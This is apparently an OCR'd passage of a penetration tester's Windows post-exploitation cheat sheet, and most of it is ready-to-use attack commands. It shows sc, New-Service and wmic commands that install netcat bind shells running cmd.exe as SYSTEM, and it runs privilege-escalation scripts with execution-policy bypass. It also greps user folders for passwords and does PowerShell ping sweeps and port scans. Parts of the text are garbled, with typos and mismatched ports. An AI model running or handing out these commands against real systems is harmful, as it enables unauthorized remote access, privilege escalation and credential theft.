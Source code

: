 Sc \hostname/ip query ncservice => Service is stopped

Make more persistent Sc \hostname create ncservice2 binpath= "cmd.exe /k c:\tools\nc\nc.exe -l -p 2222 -e cmd.exe"

sc \w10 start ncservice2 //will then crash after 30sec but doesnt matter Nc 127.0.0.1 222 ==> run with SYSTEM privileges via the servic created

Victim monitor for port 2222 connections: Netstat nao 1 | find ":2222"

### WMIC

wmic process call create "c:\tools\nc\nc.exe -l -p 4444 -e cmd.exe" ==> Creates cmd popup for user, bad! Use -d option

wmic process call create "c:\tools\nc\nc.exe -d -l -p 4444 -e cmd.exe"

Nc 127.0.0.1 4444

### PrivEsc Scripts

PrivscCheck: [https://github.com/itm4n/PrivescCheck](https://github.com/itm4n/PrivescCheck)

powershell -ep bypass .\PrivescCheck.ps1 Invoke-PrivescCheck -Extended -Report PrivescCheck\_%COMPUTERNAME% -Format TXT,CSV,HTML,XML

JAWS Enum: [https://github.com/411Hall/JAWS](https://github.com/411Hall/JAWS)

powershell -ep bypass .\jaws-enum.ps1 -OutputFileName Jaws-Enum.txt

PowerSploit: [https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

### Powershell

From a PowerShell prompt without modifying the execution policy: Get-Content .\PrivescCheck.ps1 | Out-String | IEX

## Network

**Search for a pattern "password" in a directory:** ls -r c:\users | % {sls -path $\_ -pattern password} 2>$null

**Setup a new service which will start cmd with netcat started:** New-Service -Name "ncservice" -BinaryPathName "cmd.exe /k C:\tools\nc\nc.exe -l -p 3333 -e cmd.exe" -StartupType manual Start-Service -Name ncservice Sc.exe delete ncservice

**Ping sweep with powershell:** 1..255 | % {ping -n 1 -w 100 10.10.10.$\_ | sls ttl}

**Portscan:** 1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.10.10.10",$_)) "Port $_ is open"} 2>$null

## Network reconaissance

Ping sweep (slow) (1..254) | % {$ip="10.0.40.$\_"; Write-output "$IP $(test-connection -computername "$ip" -quiet -count 1)"}
